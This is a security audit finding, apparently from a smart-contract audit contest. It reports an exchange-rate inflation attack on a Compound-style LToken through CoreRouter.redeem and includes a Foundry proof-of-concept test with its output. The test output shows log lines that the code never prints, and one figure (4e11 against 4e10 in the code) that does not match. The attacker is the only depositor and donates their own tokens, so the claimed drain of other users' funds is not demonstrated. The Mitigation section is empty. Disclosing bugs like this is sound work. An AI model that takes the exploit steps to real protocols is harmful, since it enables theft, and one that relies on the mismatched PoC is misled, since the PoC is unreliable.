 Exotic Coffee Manatee

High

# Possible manipulation of exchangeRateStored() can cause inflation attack and drain tokens

### Summary

The exchange rate in the `LToken` contract can be artificially inflated by directly transferring underlying tokens to the `LToken` contract without minting new lTokens. This allows an attacker to redeem a disproportionately large amount of the underlying token with a small number of lTokens, draining the pool and leading to loss of funds for other users.

### Root Cause

The `exchangeRateStored()` function in Compound-style lending protocols calculates the exchange rate as:

```solidity
exchangeRate = (cash + borrows - reserves) / totalSupply
```

If a large amount of the underlying token is sent directly to the `LToken` contract (i.e., without calling `mint()`), `cash` increases but `totalSupply` remains unchanged, inflating the `exchangeRate`. Later redemptions (even small) result in significantly more underlying tokens being withdrawn than expected.

In `CoreRouter::redeem`:- [L124](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L115): the `exchangeRateStored()` is used to calculate expected underlying, but it may already be manipulated.

### Internal Pre-conditions

- The attacker holds a small amount of lTokens (e.g., 1–2 units).
- The protocol relies on `exchangeRateStored()` to calculate redemption value.

### External Pre-conditions

- The `LToken` contract allows direct transfer of the underlying asset to itself (standard ERC20 behavior).
- There is no guard or check against `exchangeRate` manipulation.

### Attack Path

1. Attacker supplies a small amount of tokens via `CoreRouter.supply()`, receiving some lTokens.
2. Attacker redeems most of them, keeping just a few lTokens.
3. Attacker sends a large amount of the underlying token directly to the `LToken` contract (without minting).
4. This increases `cash` in the contract, but `totalSupply` remains unchanged, inflating the `exchangeRateStored()`.
5. Attacker uses `CoreRouter.redeem()` for their remaining lTokens.
6. Due to the manipulated exchange rate, attacker redeems almost all tokens from the pool.

### Impact

This results in a critical pool drain — users who haven’t redeemed yet will find their tokens worthless or significantly reduced in value. This is a classical "exchange rate inflation" vulnerability and can result in:

- Total pool imbalance.
- Other users being unable to withdraw.
- Systemic risk if used across multiple tokens.

### PoC

Please add the test below to `TestSupplying.t.sol`, and run it with:

```bash
forge test --mt testInflationAttackWithCoreRouter -vv
```

---

**The Test**
```solidity
function testInflationAttackWithCoreRouter() public {
    address attacker = makeAddr("attacker");

    address token = supportedTokens[0];
    address lToken = lTokens[0];

    // 1. Mint tokens to attacker
    ERC20Mock(token).mint(attacker, 1_000 ether);

    // 2. Attacker approves and supplies a small amount
    vm.startPrank(attacker);
    ERC20Mock(token).approve(address(coreRouter), type(uint256).max);
    coreRouter.supply(10 ether, token);

    uint256 initialExchangeRate = LToken(lToken).exchangeRateStored();
    console2.log("Initial exchange rate after supply:", initialExchangeRate);

    // 3. Attacker redeems almost all lTokens
    uint256 invests = lendStorage.totalInvestment(attacker, lToken);
    uint256 investsMinusOne = 4e10;
    LErc20(lToken).approve(address(coreRouter), type(uint256).max);
    coreRouter.redeem(invests - investsMinusOne, payable(lToken));

    assertEq(lendStorage.totalInvestment(attacker, lToken), investsMinusOne);

    // 4. Direct transfer to lToken contract to manipulate exchange rate
    ERC20Mock(token).transfer(lToken, 990 ether);
    vm.stopPrank();

    uint256 inflatedRate = LToken(lToken).exchangeRateStored();
    console2.log("Exchange rate after direct transfer:", inflatedRate);

    // 5. Final redemption of the remaining lTokens
    vm.startPrank(attacker);
    coreRouter.redeem(investsMinusOne, payable(lToken));
    vm.stopPrank();

    // 6. Remaining funds should be near zero (i.e., drained)
    uint256 remaining = ERC20Mock(token).balanceOf(lToken);
    console2.log("Remaining in lToken after exploit:", remaining);
    assertLe(remaining, 1 ether);
}
```

---

**Test results**

Ran 1 test for test/TestSupplying.t.sol:TestSupplying
[PASS] testInflationAttackWithCoreRouter() (gas: 536824)
Logs:
  Initial exchange rate after supply: 200000000000000000000000000
  Total investment after supply: 50000000000
  Total invests - 4e11: 10000000000
  Exchange rate after direct transfer: 24950000000000000000000000000
  Remaining in lToken after exploit: 0

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 23.22ms (4.87ms CPU time)

Ran 1 test suite in 143.27ms (23.22ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)

- ✅ The attacker drained almost the entire pool.

---

### Mitigation
